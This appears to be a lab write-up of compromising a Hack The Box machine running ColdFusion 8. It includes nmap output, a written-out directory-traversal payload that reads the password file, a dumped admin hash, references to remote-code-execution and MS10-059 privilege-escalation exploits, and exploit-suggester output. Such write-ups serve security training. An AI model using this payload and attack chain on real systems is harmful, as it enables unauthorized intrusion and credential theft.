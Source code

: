 ```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-04 09:49 CDT
Stats: 0:00:36 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 56.41% done; ETC: 09:50 (0:00:29 remaining)
Stats: 0:00:37 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 56.82% done; ETC: 09:50 (0:00:28 remaining)
Nmap scan report for 10.129.93.22
Host is up (0.0082s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown
```
## Exploit
[CVE-2010-2861 - directory traversal](https://github.com/vulhub/vulhub/tree/master/coldfusion/CVE-2010-2861)
`http://10.129.93.22:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en`

admin hash `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03`

![](Images/{16B8CBA6-FFF6-4FB7-88C2-1BE9EA943574}.png)

Hash is already dumped
![](Images/{631208C4-03F8-45AD-B563-50400F74F291}.png)

[Adobe ColdFusion 8 - Remote Command Execution | cfm/webapps/50057.py](https://www.exploit-db.com/exploits/50057)

Update system information in payload

![](Images/{7FD009FA-B226-434F-8FED-29CD4B0D8465}.png)

![](Images/{BB5A311C-273A-42C7-8F23-8F7A565A767E}.png)

Shell obtained

![](Images/{F0048586-2F50-41D2-90D2-70D8B795DC3C}.png)

![](Images/{9CED4D39-68D3-4115-9CAD-7A0A6B666602}.png)

Can also pop a shell with metasploit `windows/http/coldfusion_fckeditor`
## Priv Esc
### System Info
```
Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          6/4/2025, 1:42:44 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 5.057 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.228 MB
Virtual Memory: In Use:    1.057 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.93.22
```

![](Images/{2EEC5AE2-CA80-44FB-A8C9-E983B2999C3F}%201.png)

SeImpersonatePriv

Run local-exploit-suggester
`python2 exploit-suggester.py --database 2025-04-16-mssb.xls --systeminfo sysinfo.txt`
```
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```
[Chimichurri-MS10-059](https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059:%20Chimichurri/Source/Chimichurri.ncb)

Transfer the file on over

![](Images/Pasted%20image%2020250416211358.png)

Slap in the options and you are good to go

![](Images/Pasted%20image%2020250416211520.png)
![](Images/Pasted%20image%2020250416211558.png)
